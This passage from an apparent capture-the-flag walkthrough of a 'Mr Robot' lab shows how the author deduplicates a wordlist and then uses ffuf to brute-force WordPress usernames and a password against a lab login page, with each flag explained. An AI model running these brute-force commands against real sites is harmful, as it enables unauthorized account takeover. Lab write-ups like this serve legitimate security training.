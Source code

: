 **Command Breakdown:**
- `sort` → Sorts the file alphabetically.
- `uniq` → Removes duplicate lines.
- `> pass.txt` → Save the cleaned list into `pass.txt`.

---

## **Brute-Forcing WordPress**

Now I used the cleaned wordlist to find **valid usernames** on the WordPress login page:

```shell
ffuf -w pass.txt -u "http://10.10.250.221/wp-login.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "log=FUZZ&pwd=hm&wp-submit=Log+In" -fw 136
```

**Command Breakdown:**
- `-X POST` → Send a POST request.
- `-H "Content-Type..."` → Set header for form data.
- `-d "log=FUZZ&pwd=hm&wp-submit=Log+In"` → Form data, where `log=FUZZ` means we are fuzzing the username field.
- `-fw 136` → Filter responses with 136 words (ignore error responses).

![sub](/assets/images/posts/2025-08-27-MrRobot/9.png)

I found a **valid username**: `elliot`.

Then, I brute-forced Elliot’s password:

```shell
ffuf -w pass.txt -u "http://10.10.250.221/wp-login.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "log=elliot&pwd=FUZZ&wp-submit=Log+In" -fw 136
```